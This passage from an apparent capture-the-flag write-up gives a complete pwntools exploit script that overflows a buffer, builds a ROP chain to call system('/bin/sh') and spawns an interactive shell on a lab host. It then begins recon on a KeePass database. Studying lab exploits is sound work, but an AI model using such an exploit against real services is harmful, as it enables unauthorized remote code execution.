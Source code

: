 
Between rooting this box and writing this writeup I played a lot with this binary.
This is why I also have a "pwntools" version of this exploit. This version doesn't need the "cat" magic.

{{< highlight python >}}
#!/usr/bin/python3
from pwn import *

# PwnTools
context(arch = 'amd64', os = 'linux', terminal = ['tmux','splitw', '-h'])
#p = process("./myapp")
#gdb.attach(p, "b *0x401206")
p = remote("10.10.10.147", 1337)

# Stage 0
junk = b'A' * 120 # Overflow
cmd = b'/bin/sh\x00' # RCE

# ROP
pop = p64(0x401206)
jmp = p64(0x401156)

# RCE
fake = p64(0x000000)
system = p64(0x401040)


# Create Payload
payload = junk + pop + system + fake + fake + jmp + cmd

p.sendline(payload)
p.interactive()
{{< / highlight >}}

[[Top]](#top)

# Internal Recon
Phew. That was quite a trip. But the last part is super easy.
In the user folder, next to the `user.txt` we already see a "keepass-database"
and a bunch of files..

If you don't know keepass: It's a "password manager".
Keepass, like many other password managers, have a feature where you can enter your password and a keyfile.
Which can be anything. A text file. An image. Something that won't change. And it will be used as a second factor to the password.
